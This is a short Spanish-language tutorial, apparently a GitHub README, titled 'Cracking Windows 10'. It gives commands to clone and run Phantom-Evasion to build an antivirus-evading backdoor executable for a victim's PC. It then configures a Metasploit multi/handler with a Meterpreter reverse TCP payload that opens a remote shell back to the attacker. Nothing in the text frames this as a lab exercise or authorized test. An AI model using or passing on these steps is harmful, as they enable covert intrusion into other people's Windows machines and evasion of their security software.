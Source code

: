 # Cracking Windows 10

<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Metasploit Framework es la herramienta más utilizada por los hackers en todo el mundo. Permite a los 
hackers informáticos configurar oyentes que crean un entorno propicio (denominado Meterpreter) para manipular máquinas comprometidas. 

En este artículo, veremos cómo se puede usar este marco dentro de Kali Linux para atacar una máquina con Windows 10. Lo haremos a través de un archivo ejecutable malicioso.

<br>

## Creando un archivo .exe malicioso


Para crear el ejecutable usaremos **Phantom-Evasion** que es un script que sirve para crear backdoors indetectables:

```
git clone https://github.com/oddcod3/Phantom-Evasion.git

cd Phantom-Evasion

chmod u+x phantom-evasion.py

python3 phantom-evasion.py
```

<br>

<p align="center">
<img src="./Img/phantom.png">
</p>

<br>
Seleccionaremos la opción 1, ahora el tipo de modulo opción 2, luego pulsaremos ENTER y en LHOST pondremos nuestra IP y LPORT el puerto 4444 y si nos pregunta yes o no ingresaremos todo yes.

Luego de esto tendremos nuestro backdoor generado ahora lo usaremos en la PC victima.

Ahora iniciaremos msfconsole para poder conectarnos a la pc victima:

```
msfconsole

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST <TU IP>

set LPORT 4444

exploit
```

Como podemos observar hemos conseguido entrar a la PC víctima. 

![Informatica](Img/sesion.png)

Ahora para acceder a la terminal ingresaremos el siguiente comando **shell** y listo esteremos dentro de la terminal.

**Creditos:** https://github.com/oddcod3/Phantom-Evasion